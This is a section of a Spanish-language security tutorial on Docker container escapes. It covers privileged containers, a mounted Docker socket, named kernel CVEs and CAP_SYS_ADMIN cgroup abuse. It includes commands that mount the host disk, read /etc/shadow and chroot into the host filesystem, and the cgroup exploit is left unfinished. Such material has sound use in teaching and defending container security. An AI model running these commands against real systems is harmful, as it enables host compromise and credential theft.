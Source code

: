 
### 4. CONTAINER ESCAPE

#### ¿Qué es Container Escape?

Escapar del aislamiento del contenedor para obtener acceso al host.

#### Técnicas Comunes

**A. Privileged Container**

```bash
# Contenedor privilegiado
docker run --privileged -it alpine sh
```

Dentro del contenedor:
```bash
# Listar dispositivos del host
fdisk -l

# Montar disco del host
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# Ahora puedes leer/escribir archivos del host
cat /mnt/host/etc/shadow
```

**B. Via Docker Socket**

Si el socket está montado:
```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker:latest sh
```

Crear contenedor privilegiado con acceso al host:
```bash
docker run -it --privileged --pid=host --net=host --ipc=host \
  -v /:/host ubuntu chroot /host bash
```

**C. Via Kernel Exploits**

Explotar vulnerabilidades en el kernel compartido:
```bash
# CVE-2022-0847 (Dirty Pipe)
# CVE-2021-22555 (Netfilter heap overflow)
# CVE-2016-5195 (Dirty COW)
```

**D. Via Capabilities**

Con `CAP_SYS_ADMIN`:
```bash
docker run --cap-add=SYS_ADMIN -it alpine sh

# Dentro del contenedor
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
# Exploit para ejecutar comandos en el host
```

---